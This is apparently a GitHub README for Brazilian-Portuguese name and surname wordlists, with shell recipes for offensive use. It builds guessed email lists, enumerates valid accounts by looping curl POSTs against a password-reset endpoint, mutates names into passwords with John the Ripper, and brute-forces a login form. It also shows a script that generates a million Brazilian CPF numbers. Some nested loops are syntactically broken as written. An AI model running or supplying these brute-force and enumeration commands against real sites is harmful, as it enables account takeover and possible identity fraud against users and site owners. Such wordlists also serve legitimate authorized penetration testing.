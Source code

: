 # Wordlists-PT-BR
Wordlists em PT-BR, desde nomes, sobrenomes, e em breve adicionaremos endpoints em português para fuzzing. Todas as informações foram extraídas de fontes públicas.
### Criar wordlist de emails concatenando `nome.sobrenome@domain.com`
```
./wlcreator.sh nomes.txt . sobrenomes.txt domain.com emails.txt
```
### Brute Force para encontrar emails válidos - Reset Password
```
for email in `cat emails.txt`; do curl -X POST --data "email=$email" "https://domain.com.br/reset-password" -s; done
```
or
```
for nome in `cat nomes.txt`; for sobrenome in `cat sobrenomes.txt`; do curl -X POST --data "email=$nome.$sobrenome@domain.com.br" "https://domain.com.br/resetpassword" -s ; done
```
### Gerar mutação de senha através de poucos nomes fornecidos no txt
```
john --rules=all --stdout --wordlist=nomes.txt > passwords.txt 
```
### Brute Force - Login
```
for email in `cat emails.txt`; for password in `cat passwords.txt`; do curl -X POST --data "email=$email&password=$password" "https://domain.com.br/login" -s; done
```

### CPFGenerator
```
python cpfgenerator.py -n 1000000
```
